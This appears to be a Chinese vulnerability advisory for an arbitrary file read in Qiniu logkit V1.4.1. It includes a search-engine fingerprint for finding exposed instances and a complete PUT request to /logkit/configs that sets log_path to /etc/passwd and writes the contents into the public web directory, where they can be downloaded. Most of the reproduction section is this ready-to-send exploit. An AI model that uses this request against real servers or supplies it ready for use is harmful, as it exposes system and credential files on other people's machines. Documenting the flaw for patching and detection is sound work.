




七牛云 logkit log_path 任意文件读取漏洞¶
漏洞描述¶
七牛云 logkit log_path 参数可自定义读取服务器文件，配合读取的文件写入Web目录将会使攻击者读取到服务器任意文件，造成服务器敏感信息泄漏
漏洞影响¶
七牛云 logkit V1.4.1
网络测绘¶
title="七牛Logkit配置文件助手"
漏洞复现¶
主页面

发送请求包配置读取文件
PUT /logkit/configs/passwdread HTTP/1.1
Host:
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 356
Content-Type: application/json
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
{
"name": "passwdread",
"batch_interval": 1,
"collect_interval": 1,
"reader": {
"mode": "file",
"log_path": "/etc/passwd",
"read_from": "oldest",
"datasource_tag": "datasource",
"encoding": "UTF-8"
},
"parser": {
"type": "raw",
"name": "parser",
"timestamp": "true"
},
"transforms": [],
"senders": [
{
"sender_type": "file",
"file_send_path": "/app/public/passwd.log"
}
]
}


请求读取的文件 /app/public 目录为Docker默认Web路径，写入可读取目标文件
